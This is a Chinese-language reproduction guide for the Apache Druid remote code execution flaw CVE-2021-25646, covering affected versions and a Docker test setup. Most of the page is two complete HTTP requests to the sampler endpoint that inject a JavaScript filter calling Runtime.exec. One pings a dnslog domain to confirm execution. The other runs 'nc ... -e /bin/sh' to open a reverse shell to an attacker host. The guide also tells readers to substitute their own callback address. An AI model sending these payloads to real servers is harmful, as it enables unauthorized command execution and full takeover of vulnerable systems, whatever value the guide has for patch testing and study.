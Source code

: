 # Apache-Druid-远程代码执行漏洞-CVE-2021-25646

## 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。
Apache Druid 默认情况下缺乏授权认证，攻击者可以发送特制请求，利用Druid服务器上进程的特权执行任意代码。
Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在Druid 0.20.0及更低版本中，经过身份验证的用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码

## 漏洞影响

> [!NOTE]
>
> Apache Druid < 0.20.1

## 环境搭建

这里使用Docker来搭建环境

![](Apache-Druid-远程代码执行漏洞-CVE-2021-25646.assets/16273634494992719.jpg)

Docker下载链接: https://github.com/apache/druid/archive/druid-0.20.0.zip

下载之后进入目录 **distribution\docker**

执行命令编译 **docker-compose up -d**

![](Apache-Druid-远程代码执行漏洞-CVE-2021-25646.assets/1627363449738302.jpg)

访问 http://xxx.xxx.xxx.xxx:8888 正常就行了

![](Apache-Druid-远程代码执行漏洞-CVE-2021-25646.assets/1627363449959139.jpg)

## 漏洞复现

漏洞原理: https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw

POC请求包

```json
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx​:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 995
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping xxxxx.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

![](Apache-Druid-远程代码执行漏洞-CVE-2021-25646.assets/1627363450296761.jpg)

> [!NOTE]
>
> 注意请求中这个位置改为你的dnslog平台地址
>
> java.lang.Runtime.getRuntime().exec('ping -c 4 xxxxx.dnslog.cn')

发送请求即可命令执行

![](Apache-Druid-远程代码执行漏洞-CVE-2021-25646.assets/1627363450619339.jpg)

> [!NOTE]
>
> 看了下可能大部分都是docker搭建，而里面大部分命令是不存在的，但是发现docker里面居然默认是有 NC 命令的，那我们就可以用nc反弹一个shell了

反弹shell请求包

```json
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx​:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 1008
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec(' nc xxx.xxx.xxx.xxx 9999 -e /bin/sh')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

发送请求包就可以得到一个交互式shell了

![](Apache-Druid-远程代码执行漏洞-CVE-2021-25646.assets/16273634509389188.jpg)



